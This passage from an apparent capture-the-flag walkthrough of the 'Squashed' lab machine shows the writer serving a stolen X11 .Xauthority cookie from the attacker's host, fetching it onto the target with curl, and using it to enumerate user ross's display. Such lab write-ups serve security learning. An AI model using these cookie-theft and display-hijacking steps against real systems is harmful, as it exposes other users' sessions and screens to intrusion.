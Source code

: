 ross is logged in and using display `:0`.

#### Verify Cookie

To see if the cookie works, I’ll try to run some enumeration commands like `xdpyinfo` and `xwininfo`. If I try to run these from my shell as alex without any auth, they both fail:

```

alex@squashed:/home/alex$ xdpyinfo -display :0                                                             
No protocol specified
xdpyinfo:  unable to open display ":0".

alex@squashed:/home/alex$ xwininfo -root -tree -display :0                            
No protocol specified
xwininfo: error: unable to open display ":0"

```

I’ll fetch a copy of the cookie from the NFS mount and save it on Squashed so that it can be used from the session as alex. From the NFS mount on my host, I’ll run `python3 -m http.server 80` (with `sudo` if necessary) to start a Python webserver in that directory on my host.

From the shell as alex, I’ll fetch this file with `curl`, and write it to `/tmp`:

```

alex@squashed:/home/alex$ curl http://10.10.14.6/.Xauthority -o /tmp/.Xauthority 
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    57  100    57    0     0    111      0 --:--:-- --:--:-- --:--:--   111

```

There’s two ways to get these tools to use this file for auth. I could put it in `$HOME/.Xauthority` for my current user. That works, but the one trick is that `$HOME`isn’t set:

```

alex@squashed:/home/alex$ echo $HOME

```

But if I `export HOME=/home/alex`, then `cp /tmp/.Xauthority /home/alex/`, it’ll work.

Alternatively, I can just use the `XAUTHORITY` environment variable set to the file location. I can either `export` that (in which case it’ll be that way for the rest of that session), or add it to the front of each command like this:

```

alex@squashed:/home/alex$ XAUTHORITY=/tmp/.Xauthority xdpyinfo -display :0
name of display:    :0                                
version number:    11.0                                
vendor string:    The X.Org Foundation                
vendor release number:    12013000                    
X.Org version: 1.20.13
maximum request size:  16777212 bytes
motion buffer size:  256
bitmap unit, bit order, padding:    32, LSBFirst, 32  
image byte order:    LSBFirst                         
number of supported pixmap formats:    7              
supported pixmap formats:                             
    depth 1, bits_per_pixel 1, scanline_pad 32        
    depth 4, bits_per_pixel 8, scanline_pad 32
...[snip]...

```
